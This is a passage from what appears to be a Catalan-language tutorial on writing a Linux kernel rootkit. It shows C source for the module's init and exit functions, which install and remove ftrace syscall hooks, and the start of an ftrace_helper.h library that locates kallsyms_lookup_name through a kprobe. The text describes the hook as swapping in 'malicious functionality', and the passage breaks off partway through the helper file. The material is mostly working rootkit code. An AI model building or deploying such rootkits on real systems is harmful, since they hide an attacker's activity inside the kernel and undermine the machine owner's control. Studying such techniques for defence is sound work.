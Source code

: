         /* Module initialization function */
        static int __init rootkit_init(void)
        {
            /* Hook the syscall and print to the kernel buffer */
            int err;
            err = fh_install_hooks(hooks, ARRAY_SIZE(hooks));
            if(err)
                return err;

            printk(KERN_INFO "rootkit: Loaded >:-)\n");

            return 0;
        }

        static void __exit rootkit_exit(void)
        {
            /* Unhook and restore the syscall and print to the kernel buffer */
            fh_remove_hooks(hooks, ARRAY_SIZE(hooks));
            printk(KERN_INFO "rootkit: Unloaded :-(\n");
        }

        module_init(rootkit_init);
        module_exit(rootkit_exit);
    ```

4. Finalment implementar el fitxer *ftrace_helper.h* que conté les funcions auxiliars per a la implementació del rootkit. La macro HOOK obtindrà l’adreça original on tenim implementada la funcionalitat real de la crida a sistema i la modificarà (**hook**) per tenir en aquella adreça la nostra funcionalitat maliciosa.


    ```c
        /*
        * Helper library for ftrace hooking kernel functions
        * Author: Harvey Phillips (xcellerator@gmx.com)
        * License: GPL
        * */

        #include <linux/ftrace.h>
        #include <linux/linkage.h>
        #include <linux/slab.h>
        #include <linux/uaccess.h>
        #include <linux/version.h>

        #if defined(CONFIG_X86_64) && (LINUX_VERSION_CODE >= KERNEL_VERSION(4,17,0))
        #define PTREGS_SYSCALL_STUBS 1
        #endif

        /*
        * On Linux kernels 5.7+, kallsyms_lookup_name() is no longer exported, 
        * so we have to use kprobes to get the address.
        * Full credit to @f0lg0 for the idea.
        */
        #if LINUX_VERSION_CODE >= KERNEL_VERSION(5,7,0)
        #define KPROBE_LOOKUP 1
        #include <linux/kprobes.h>
        static struct kprobe kp = {
            .symbol_name = "kallsyms_lookup_name"
        };
        #endif
